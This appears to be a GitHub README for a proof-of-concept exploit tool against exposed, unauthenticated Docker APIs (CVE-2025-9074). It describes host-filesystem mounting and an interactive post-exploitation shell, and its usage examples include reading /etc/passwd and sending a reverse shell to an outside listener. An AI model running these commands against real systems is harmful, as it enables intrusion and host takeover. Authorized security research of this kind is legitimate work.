


# CVE-2025-9074 Exploit Tool

A sophisticated exploitation framework for CVE-2025-9074, targeting unauthenticated Docker API endpoints with an integrated interactive command shell.


## Overview

This tool automates the exploitation of exposed Docker API instances without authentication, allowing full container creation and command execution on the target host. The tool features a custom interactive shell for seamless post-exploitation operations.

> **Note:** This is a custom PoC implementation. I did not discover CVE-2025-9074.

## Demonstration

### Initial Exploitation



*Automated vulnerability detection, image pulling, container creation and initialization*

### Interactive Command Execution



*Post-exploitation shell with command execution capabilities*

## Key Capabilities

- Automated Docker API vulnerability scanning
- Container deployment with host filesystem mounting
- Interactive post-exploitation shell
- Remote command execution interface
- Reverse shell deployment module
- Colored terminal output for enhanced visibility

## Installation
1. Clone the repository
```bash
git clone https://github.com/xwpdx0/poc-2025-9074
```
2. Compile the code
```bash
gcc poc.c -o poc-2025-9074
```

or you can download the binary from [Releases](https://github.com/xwpdx0/poc-2025-9074/releases/tag/CVE-2025-9074)

## Usage

```bash
./poc-2025-9074
```

### Default Target

Execute against the default target (127.0.0.1:2375):

```bash
./poc-2025-9074
```

### Custom Target

Specify a custom Docker API endpoint:


## Interactive Shell

Upon successful exploitation, an interactive shell provides the following commands:

| Command | Description |
|---------|-------------|
| `cmd <command>` | Execute arbitrary commands within the container |
| `revshell <ip> <port>` | Deploy a reverse shell to specified listener |
| `info` | Display current container and target information |
| `exit` | Terminate the interactive session |

### Usage Examples

```bash
(PoC-CVE-2025-9074)> cmd whoami
(PoC-CVE-2025-9074)> cmd cat /etc/passwd
(PoC-CVE-2025-9074)> cmd ls -la /mnt
(PoC-CVE-2025-9074)> revshell 10.10.14.5 9001
(PoC-CVE-2025-9074)> info
```

## Vulnerability Details

**CVE-2025-9074** affects Docker instances with exposed API endpoints lacking proper authentication mechanisms. This misconfiguration allows unauthorized access to the Docker daemon, enabling:

- Arbitrary container creation
- Host filesystem access via bind mounts
- Privilege escalation opportunities
- Remote code execution

## Legal Disclaimer

This tool is provided for **educational and authorized security testing purposes only**. 

- Only use on systems you own or have explicit written permission to test
- Unauthorized access to computer systems is illegal and punishable by law
- The author assumes no liability for misuse or damage caused by this tool
- Users are solely responsible for compliance with applicable laws and regulations

## Author

**xwpd** ([@xwpdx0](https://github.com/xwpdx0))

## License

MIT License - See LICENSE file for details

---

*For responsible disclosure and security research purposes only.*
